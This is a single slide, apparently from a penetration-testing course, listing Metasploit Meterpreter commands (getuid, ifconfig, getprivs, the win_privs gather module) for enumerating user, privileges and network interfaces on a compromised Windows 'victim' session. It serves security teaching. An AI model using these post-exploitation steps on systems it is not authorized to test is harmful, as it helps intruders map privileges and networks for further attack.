

# Scanning and Enumeration Review
Attach to the session you've opened on the victim. Use Meterpreter and the post/windows/gather/win_privs module to gather the following information:
User ID and username
Machine privileges and access controls
Network interfaces
msf > sessions -i 1
meterpreter > getuid
meterpreter > ifconfig
meterpreter > getprivs
meterpreter > background
msf > use post/windows/gather/win_privs
msf > set session 1
msf > run -j

24